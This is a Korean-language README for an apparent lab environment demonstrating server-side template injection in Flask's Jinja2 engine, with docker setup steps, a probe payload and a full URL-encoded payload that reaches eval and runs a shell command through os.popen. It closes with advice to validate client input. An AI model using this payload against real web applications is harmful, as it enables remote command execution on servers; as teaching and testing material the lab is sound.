


# Flask( Jinja2 ) / SSTI

**Contributors**

-   [양인규(@nertynertynerty)](https://github.com/nertynertynerty)

 

### 요약

-   Jinja2 Library는 Template Engine이다. 따라 Template 내의 나 {{ content }}와 같은 형식을 Template Engine이 인식해 Server의 코드와 상호작용하거나 Jinja2 경우 Python코드를 실행할 수 있다. 일반적으로 개발자가 Template에 데이터를 추가하는 등 상황에서 활용한다.
-   하지만 Client로 요청 받은 데이터를 그대로 Template에 삽입해 사용한다면, 그대로 SSTI 취약점이 발생할 수 있다.
-   따라 Client로부터 요청 데이터가 Template Engine이 읽는 형식으로 보낸다면, Server단 코드를 실행할 수 있다.

 

### 환경 구성 및 실행

-   `docker compose build`를 실행하여 테스트 환경을 빌드함.
-   `docker compose up -d`를 실행하여 테스트 환경을 실행함.
-   `http://your-ip:8000/?name={{233*233}}`에 접속하여 54289가 출력되어, 취약한 테스트 페이지를 확인함.
-   1. `python3 poc.py id`를 실행하여 SSTI 취약점으로 shell의 id 결과를 볼 수 있음.
-   2. `http://your-ip:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D`을 접속하여 SSTI 취약점으로 shell의 id 결과를 볼 수 있음.

 

### 결과

 

### 정리

-   이 취약점은 공격자가 Template에 의도되지 않은 데이터를 삽입해 서버단 명령을 실행 할 수 있어, 정보 유출의 위험이 있음. 안전한 웹 서비스 운영을 위해서는 Client의 요청을 검증한 후 사용하는 등 추가적인 조치가 필요함.
